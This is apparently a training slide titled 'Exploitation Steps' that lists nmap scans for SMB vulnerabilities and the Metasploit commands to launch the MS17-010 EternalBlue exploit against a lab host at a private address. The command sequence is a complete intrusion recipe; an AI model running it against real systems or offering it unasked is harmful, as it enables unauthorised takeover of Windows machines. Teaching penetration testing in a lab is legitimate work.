

# Exploitation Steps
Attack Execution steps:
Run port scan against the target with nmap ( # nmap –sV 192.168.31.15)
Run nmap script to scan vulnerability associated with SMB (# nmap –p 445 –script=smb-vuln-* 192.168.31.15 / # nmap –script vuln 192.168.31.15)
Run metasploit (# msfconsole)
Search the exploit ( # msf> search ms17-010)
Select the exploit ( # msf > use exploit/windows/smb/ms17_010_eternalblue )
Set target ( # > set RHOSTS 192.168.31.15)
Run the exploit (#  > exploit)